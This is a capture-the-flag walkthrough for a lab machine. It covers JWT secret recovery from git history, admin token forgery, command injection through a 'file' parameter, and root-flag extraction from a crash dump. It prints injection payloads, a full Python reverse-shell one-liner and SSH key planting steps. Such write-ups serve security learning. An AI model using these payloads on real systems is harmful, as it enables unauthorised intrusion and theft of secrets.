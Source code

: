 IT'S ALL ABOUT READING DOCS.
---
![](https://i.ibb.co/nfFw67L/secret.png)\
\
\
*note that i skipped useless parts like "we can see this, but as we can see, it's not important to us"*\
*note1 that i don't recommend to blindly copy + paste, you will learn nothing. do your own research. :)*

```
POST /api/user/register HTTP/1.1
Content-Type: application/json //important to add
[blabla]

  {
	"name": "hihihi",
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : {"user": "hihihi"} // user created`
\
\
\
```
POST /api/user/login HTTP/1.1
[BLABLA]
  {
	"email": "hihihi@gmail.com",
	"password": "hihihi"
  }
```
`response : [OUR JWT TOKEN.... ALSO AS auth-token header.]`
\
\
**/download - DOWNLOAD THE SOURCE CODE**

`// important to proceed further, easily discoverable by gobuster, ffuf,.. what do you prefer`

- we can see, that in .env file, there's **theadmin** user.     `// in jwt.io, rename yourself to "theadmin"`
- the secret seems to be **secret**, but it's false. (checking with jwt.io)     `// reading the file + trying it in burp.. token is invalid.`
- as we can see .git, we can try `git log` to see changes.     `// yes`
```
commit 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
Author: dasithsv <dasithsv@gmail.com>
Date:   Fri Sep 3 11:30:17 2021 +0530

    removed .env for security reasons // one of the snippets, that is key to us.
```
THE COMMAND FOR TIME TRAVEL BACK IS : `git HEAD~2`.
after that, we can see **TOKEN_SECRET**, with different secret    
\
`// the secret works, trust me... or more like try it.`

```
GET /api/priv 
auth-token: [token with secret]
```
`response : "desc":"welcome back admin"            // confirms it works.`
\
\
\
- with the command `git HEAD~2`, we can also see a snippet of js code : 
```
router.get('/logs', verifytoken, (req, res) => {
+    const file = req.query.file;     // creates ?file param.
+    const userinfo = { name: req.user }
+    const name = userinfo.name.name;
```
- the most interesting for us is `req.query.file`, which creates ?file= param.
\
`?file=index.js;id // command injection`\
`?file=index.js;cat+/home/dasith/user.txt // getting USER FLAG [not gonna leak for you]`

now, we need to get into the server. found this cool blog : https://www.aldeid.com/wiki/Command-injection-to-shell --> it is not working, but interesting method as well. nice to read.


`python3+-c+'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[your ip]",[port]));os.dup2(s.fileno(),0);+os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import+pty;+pty.spawn("sh")' // classic way ; it works. (done with burp)`

So, we got reverse shell, but let's be honest, reverse shell is shit. as we can see from nmap scan, 22 is open, meaning we can connect via ssh.
\
- let's go into `/home/dasith` directory ;
```
mkdir .ssh
cd .ssh
ssh-keygen -t rsa //spam enter
cat id_rsa.pub > authorized_keys
chmod 600 authorized_keys
chmod 700 id_rsa
cd ..
chmod 700 .ssh
```

- copy the id_rsa into your machine `//cat id_rsa and copy it`
```
ssh -o StrictHostKeyChecking=no -i id_rsa dasith@10.10.11.120 uptime // add our host to verified
ssh -id_rsa dasith@10.10.11.120 //connect 
```
- in `/opt`, there's strange file **count**

`./count`

**note:** here, i was stuck for a long period of time. especially with the `apport-unpack`, which i never heard of.
```
Enter source file/directory name: /root/root.txt // we want to get root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ctrl^Z // background the proccess
```
let's kill it!
```
ps //see PID of the script
kill -SIGSEGV [PID] // kill the proccess
fg // get back from background
Segmentation fault (core dumped) // BroKEn
```
as we can see, we broke it.
crash logs are in `/var/crash/`. there, we can use one cool utility i didn't know = `apport-unpack`

`apport-unpack _opt_count.1000.crash [directory whenever you want] // 1000 is right, others are useless`\
`cd [crashes]`

now, most interesting is CoreDump obviously, since the error was `Segmentation fault (core dumped)`\
`strings CoreDump // find the root flag.`

thanks.

**what i used :** 
\
              https://askubuntu.com/questions/45679/ssh-connection-problem-with-host-key-verification-failed-error {ssh verify host} \
              https://jwt.io/ 
	      \
              https://www.unix.com/man-page/linux/1/apport-unpack/ {checked man page of apport unpack}
              
https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens {for jwt pentesting.}
              
